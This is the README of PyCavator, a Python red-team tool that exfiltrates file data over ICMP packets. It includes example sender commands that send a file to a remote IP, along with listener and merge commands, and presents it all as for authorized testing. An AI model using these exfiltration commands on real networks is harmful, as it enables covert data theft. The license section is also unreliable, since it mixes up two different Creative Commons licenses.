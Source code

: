# PyCavator

PyCavator is a Python-based tool that can be used to send and receive data using ICMP packets. The tool can be used for authorized red teaming and penetration testing activities or educational purposes. It provides a sender mode to exfiltrate data from a file and a listener mode to receive incoming data and save it in chunks or to a single file. The tool also includes a merge mode to merge output files with part numbers in the specified range. With PyCavator, users can easily exfiltrate or receive data using ICMP packets in a secure and efficient manner.

## Usage

```bash
usage: PyCavator.py [-h] [-l] [-f FILE] [-d ADDRESS] [-s ADDRESS] [-p PROTOCOL] [-w WRITE] [-o FOLDER]
                    [--merge] [-x PREFIX] [-a START_SUFFIX] [-b END_SUFFIX] [-e EXTENSION]

Send and receive data using ICMP packets.

options:
  -h, --help            show this help message and exit
  -l, --listen          listen for incoming data (default: send data)
  -f FILE, --input_file FILE
                        input file to exfiltrate (required in sender mode)
  -d ADDRESS, --dst_addr ADDRESS
                        destination IP address (required in sender mode)
  -s ADDRESS, --src_addr ADDRESS
                        source IP address to listen for (required in listener mode)
  -p PROTOCOL, --protocol PROTOCOL
                        protocol to use (icmp)
  -w WRITE, --write WRITE
                        choices to save data (c for chunk OR s to one single file, required in listener mode)
  -o FOLDER, --output_folder FOLDER
                        output folder for received data (optional in listener mode OR required in merge mode)
  --merge               merge output files with part numbers in the specified range (default: False)
  -x PREFIX, --prefix PREFIX
                        prefix of the output file (required in merge mode)
  -a START_SUFFIX, --start_suffix START_SUFFIX
                        start part number suffix (required in merge mode)
  -b END_SUFFIX, --end_suffix END_SUFFIX
                        end part number suffix (required in merge mode)
  -e EXTENSION, --extension EXTENSION
                        extension of the output file (required in merge mode for saving data to single file)

Examples:
  # Sender mode: exfiltrate data from a file
  python PyCavator.py -f input.txt -d 192.168.1.101 -p icmp
  
  # Listener mode: listen for incoming data and save in chunks
  python PyCavator.py -l -s 192.168.1.100 -p icmp -w c
  
  # Listener mode: listen for incoming data and save to a single file
  python PyCavator.py -l -s 192.168.1.100 -p icmp -w s -o output_folder
  
  # Merge mode: merge output files with part numbers in the specified range
  python PyCavator.py --merge -x output -a 1 -b 10 -e txt -o output_folder
```

## Installation

PyCavator.py requires Python 3 to be installed. To install PyCavator.py, clone the repository and install the required Python modules:

```bash
git clone https://github.com/YOUR_USERNAME/PyCavator.git
cd PyCavator
pip install -r requirements.txt
```

## How to Contribute

If you would like to contribute to PyCavator.py, please fork the repository and submit a pull request.

## Disclaimer

This tool is intended for authorized/legitimate red teaming and pentesting activities or educational purposes only. The author of the tool is not responsible for any misuse or illegal activities that may arise from the use of this tool. Users are responsible for complying with all applicable laws and regulations. By using this tool, you acknowledge that you have read this disclaimer and agree to its terms.

## License

This project is licensed under the Creative Commons Attribution-NonCommercial-NoDerivatives 4.0 International (CC BY-NC-ND 4.0) license.

Under the CC BY-NC-SA 4.0 license, users are allowed to fork, modify, and distribute the project, as long as they follow the license terms.

Users can fork the project to create their own version, and modify it to suit their needs, as long as they distribute their modified version under the same license terms and under the same name. If they want to distribute their modified version under a different name, they would need to seek permission from the original creator.

Users can also submit pull requests to the original repository with their modifications, and the original creator can choose to accept or reject those changes. If the changes are accepted, the modified version will still need to be distributed under the same license terms and under the same name.

It's important to note that the CC BY-NC-SA 4.0 license prohibits commercial use of the project without explicit permission from the original creator. This means that if someone wants to use the project or a modified version of it for commercial purposes, they would need to obtain permission from the original creator to do so. See the [LICENSE](LICENSE) file for details.





